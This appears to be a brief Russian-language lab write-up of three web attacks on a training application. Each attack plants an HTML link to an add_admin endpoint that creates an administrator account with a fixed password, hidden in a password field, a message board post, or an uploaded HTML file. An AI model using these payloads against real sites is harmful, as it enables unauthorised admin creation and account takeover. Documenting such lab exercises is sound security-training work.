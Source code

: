 ## Атака 1
Аккаунт нового пользователя создается с таким паролем <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a>

## Атака 2

В Message Board можно отправить такое сообщение <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a>

## Атака 3

B Upload PoC File можно добавить test.html с таким содержанием <a href="http://92.124.140.111:1337/add_admin?username=admin&password=789456&isAdmin=yes&submit=Add+User">test</a>
